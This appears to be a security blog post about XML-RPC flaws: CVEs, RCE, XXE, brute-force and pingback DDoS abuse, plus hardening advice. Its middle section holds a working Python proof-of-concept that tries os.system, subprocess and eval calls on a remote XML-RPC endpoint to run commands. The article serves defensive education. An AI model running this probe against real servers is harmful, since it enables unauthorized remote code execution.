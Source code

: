 ```yaml
---
title: "XML-RPC Security Vulnerabilities Analysis and Mitigation Strategies"
date: 2025-03-28T08:39:00+09:00
draft: false
tags: ["XML-RPC", "Security", "RCE", "Exploit"]
categories: ["Cybersecurity"]
---
```


![XML-RPC background](/images/post/xmlrpc-security.png)

## Summary

- **Overview of XML-RPC Vulnerabilities:** As a lightweight remote call protocol for inter-system communication, XML-RPC is exposed to various threats such as RCE, XXE, DDoS, and privilege escalation.
- **Notable Cases:** NodeBB (CVE-2023-43187), Apache OFBiz (CVE-2020-9496), PHP XML-RPC (CVE-2005-1921), etc.
- **Real-World Use Cases:** In addition to WordPress, Bugzilla, ManageEngine, and Apache OFBiz, XML-RPC is still used in some legacy systems.
- **Mitigation Strategies:** Disabling XML-RPC, enhancing input validation, reinforcing authentication systems, applying up-to-date security patches, implementing access control, and deploying WAFs.

## What is XML-RPC?

**XML-RPC (XML Remote Procedure Call)** is a remote procedure call protocol that uses XML as its data format and HTTP as its transport mechanism. Proposed jointly by Dave Winer and Microsoft in 1998, it was designed to simplify cross-platform communication.

### Basic Principles

- The client sends a request in XML format, and the server responds in XML.
- It can easily pass through firewalls using standard HTTP(S).

### History of XML-RPC

XML-RPC was widely used in early web services and implemented in various languages including Perl, Java, Python, C, and PHP. Although it later evolved into SOAP, it is still used in some environments due to its simplicity.

### Current Status of XML-RPC

Its use is declining with the advent of newer technologies such as RESTful APIs and gRPC. WordPress is transitioning to REST API, and XML-RPC is now mostly limited to legacy systems.

## Vulnerability Analysis

### 1. XML Injection & Remote Code Execution (RCE)

- **NodeBB (CVE-2023-43187):** RCE possible due to lack of XML input validation
- **Apache OFBiz (CVE-2020-9496):** RCE via Java deserialization
- **PHP XML-RPC (CVE-2005-1921):** RCE through misuse of `eval()`

### 2. XXE (XML External Entity)

- **Apache XML-RPC (CVE-2016-5002):** Local file exposure and SSRF possible due to missing external entity deactivation

### 3. DDoS and Brute Force Attacks

- **system.multicall:** Automates brute force attacks
- **pingback.ping:** Facilitates DDoS reflection attacks

### 4. Authentication Bypass & Privilege Escalation

- **WordPress (CVE-2020-28036):** Authentication bypass via XML-RPC

## Real-World Attack Cases

- **SonicWall Report (2018):** Over 100,000 XML-RPC attacks detected
- **WPbrutebot:** XML-RPC-based brute-force attack tool
- **Pingback DDoS:** Large-scale reflection attacks using XML-RPC

## XML-RPC Exploit Example

The following is a Python-based PoC code to detect RCE vulnerabilities in XML-RPC and its execution screen:

![xmlrpc poc code output](/images/post/xmlrpc-rce.png)

```python
import xmlrpc.client
import ssl
import http.client

candidate_methods = [
    "os.system",
    "commands.getoutput",
    "subprocess.check_output",
]

candidate_methods_eval = [
    "__builtin__.eval",
    "builtins.eval",
]

rpc_urls = [
    "https://xxx.com/cgi-bin/rpc.cgi",
]

context = ssl._create_unverified_context()

class UnverifiedTransport(xmlrpc.client.SafeTransport):
    def make_connection(self, host):
        return http.client.HTTPSConnection(host, context=context)

for rpc_url in rpc_urls:
    print(f"[+] Scanning target: {rpc_url}")
    client = xmlrpc.client.ServerProxy(rpc_url, transport=UnverifiedTransport())

    for method in candidate_methods:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            print(f"[>] Trying {method}('id')...")
            result = func('id')
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")

    for method in candidate_methods_eval:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            payload = '__import__("commands").getoutput("id")'
            print(f"[>] Trying {method}('{payload}')...")
            result = func(payload)
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")
```

> ⚠️ Use this script **only in authorized environments**.

## Major Services Using XML-RPC

| System         | Usage Examples                           |
| -------------- | ----------------------------------------- |
| WordPress      | Posting, comments, pingbacks (moving to REST) |
| Bugzilla       | Bug submission and update API            |
| ManageEngine   | User account and password management     |
| Apache OFBiz   | ERP integration API                      |

## Security Hardening Measures

- Disable XML-RPC (via .htaccess, web server config, plugins)
- Enhance input validation (regex-based)
- Apply XXE prevention settings
- Use API keys, OAuth, JWT authentication
- Restrict access by IP
- Deploy Web Application Firewall (WAF)
- Monitor logs and conduct regular vulnerability assessments

## Modern Alternatives Comparison

| Criteria    | XML-RPC | REST     | GraphQL   |
| ----------- | -------- | -------- | --------- |
| Data Format | XML      | JSON     | JSON      |
| Structure   | Method-based | Resource-based | Query-based |
| Scalability | Low      | High     | Very High |
| Security    | Low      | Medium+  | Medium+   |
| Strengths   | Simple implementation | Cacheable | Minimized data queries |

## Conclusion & Recommendations

- **Avoid using XML-RPC due to high security risks.**
- **If unavoidable, apply strong authentication and access control.**
- **Actively consider migrating to REST or GraphQL.**

## Reference Links

- [XML-RPC - Wikipedia](https://ko.wikipedia.org/wiki/XML-RPC)
- [CVE-2023-43187 - NodeBB XML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-43187)
- [CVE-2020-9496 - Apache OFBiz RCE](https://nvd.nist.gov/vuln/detail/CVE-2020-9496)
- [CVE-2005-1921 - PHP XMLRPC Code Injection](https://nvd.nist.gov/vuln/detail/CVE-2005-1921)
- [CVE-2016-5002 - Apache XML-RPC XXE](https://nvd.nist.gov/vuln/detail/CVE-2016-5002)
- [WordPress XML-RPC Security Guide (SolidWP)](https://solidwp.com/blog/xmlrpc-php/)
- [SonicWall XML-RPC Attack Analysis Report](https://www.sonicwall.com/blog/major-attempt-to-exploit-xml-rpc-remote-code-injection-vulnerability-is-observed)


